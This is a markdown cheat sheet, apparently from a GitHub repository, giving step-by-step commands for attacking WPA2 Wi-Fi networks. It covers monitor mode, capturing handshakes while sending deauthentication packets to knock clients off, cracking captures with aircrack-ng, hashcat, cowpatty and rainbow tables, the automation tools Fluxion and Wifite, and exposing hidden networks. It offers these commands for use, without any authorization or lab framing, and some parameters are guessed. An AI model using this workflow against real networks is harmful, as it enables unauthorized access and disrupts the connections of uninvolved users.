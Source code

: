 # WPA2 Wireless Cracking

## Tables des matière
 - [Enabling Monitor mode on your network card](#Enabling-Monitor-mode-on-your-network-card)
 - [Capturing handshake with airodump](#Capturing-handshake-with-airodump)
 - [Cracking with Aircrack](#Cracking-with-Aircrack)
 - [Cracking with Hashcat](#Cracking-with-Hashcat)
 - [Cracking with cowpatty](#Cracking-with-cowpatty)
 - [Creating wordlists](#Creating-wordlists)
 - [Rainbow table](#Rainbow-table)
 - [Fluxion](#Fluxion)
 - [Wifite](#Wifite)
 - [Finding and cracking hidden network](#Finding-and-cracking-hidden-network)
 
 

### Enabling Monitor mode on your network card
	
Check your mode tiping `iwconfig`. Put your network card down. Type `airmon-ng check <network_card_name>`. Type `airmon-ng check kill <network_card_name>`. 

Type `iwconfig <network_card_name> mode monitor`. Put your network card up.
	 
### Capturing handshake with airodump

List all of the netwworks around you : `airodump-ng <network_card_name>`

List all of the devices connected to a network : `airodump-ng -c <network_channel> --bssid <network_bssid> -w <name_file_you_want_to_create> <network_card_name>`

In the same time you perform this command, type in another terminal : `aireplay-ng -0 0 -a <bssid> <network_card_name>`

Press `^C` and all the devices will be reconnected to the access point and you see in the terminal which you run the airodump command that the WPA handshake have been found.

4 files have been created and you can open the .cap in wireshark. You can filtered by `eapol` in order to see the packets link to the reconnection.
	
### Cracking with Aircrack 

**Use CPU power** 

You can brute-forcing th password by tiping : `aircrack-ng -w <wordlist> <file.cap>`

### Cracking with Hashcat

**Use GPU power** 

In order to crack with Hashcat you must convert the .cap to a hashcat capture file --> `https://hashcat.net/cap2hccapx/`

Cracking command : `hashcat -a <perform_level(2?)> -m <hashtype(2500?for_the_wpa2)> <file.hccapx> <wordlist>`

### Cracking with cowpatty

`cowpatty -f <wordlist> -r <file.pcap> -s <name_access_point>`

### Creating wordlists

**crunch** - very useful, generate wordlist with (characters/words) in relation to the entries you made

**cupp** (github) - generate worlds with (characters/words) in relation to the answers of their questions

### Rainbow table 

These are useful for brute-force a hash code.

In order to generate a rainbow table --> `rtgen` --> see help for your use.

A .rt file is created. Don't forget to sort the rainbow table : `rsort`

You can retrieve a word by its hash hash -->` rcrack . -h <hash>` 

--> For WPA-WPA2 carcking :
	
	-create file with the name of the essid of your access point (SFR_0F30?)

  	-airolib-ng <rainbow_table_name> --import essid <essid_name_file>
  
  	-airolib-ng <rainbow_table_name> --import passwd <wordlist>
		
  	-airolib-ng <rainbow_table_name> --clean all
		
  	-airolib-ng <rainbow_table_name> --batch

  	-airolib-ng <rainbow_table_name> --verify all
		
 	-aircrack-ng -r <rainbow_table_name> <file.cap>
	
### Fluxion

Tool that automate all the steps.

### Wifite

Tool that automate all the steps and more <-- very very useful

Finding and cracking hidden network :
	
List all of the netwworks around you : `airodump-ng <network_card_name>`

If you see an access point without name but with `<length: 0>`, it is a hidden network 
	
List all of the devices connected to a network : `airodump-ng  --bssid <network_bssid> --channel <channel_network> <network_card_name>`
	
In the same time you perform this command, type in another terminal : `aireplay-ng --deauth <number_of_deauthtificated_packets> -a <bssid> -c <station(mac_adress_of_the_client)> <network_card_name>`
	
The essid appears in the terminal you run the airodump command and you can connect to the hidden network
